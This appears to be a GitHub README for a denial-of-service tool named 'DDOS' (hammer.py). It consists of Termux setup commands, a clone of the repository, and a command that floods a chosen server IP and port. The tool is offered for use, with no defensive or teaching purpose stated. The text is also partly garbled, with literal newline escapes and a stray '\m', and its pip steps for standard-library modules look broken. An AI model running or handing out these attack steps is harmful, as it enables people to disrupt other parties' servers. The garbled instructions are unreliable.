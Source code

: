 # DDOS\n
How to run?\n
Download Termux And Follow Steps :\n
$ pkg install python3\n
$ pkg install git\n
$ git clone https://github.com/TobzCyberTeam/DDOS\n
$ pip3 install queue\n
$ pip3 install optparse\m
$ python3 hammer.py\n
$ python3 hammer.py -s (server ip) -p (port 80) -t (turbo 135)\n

By Rapid7\n
Edited By TobzCyberTeam\n
Owner : Tobz
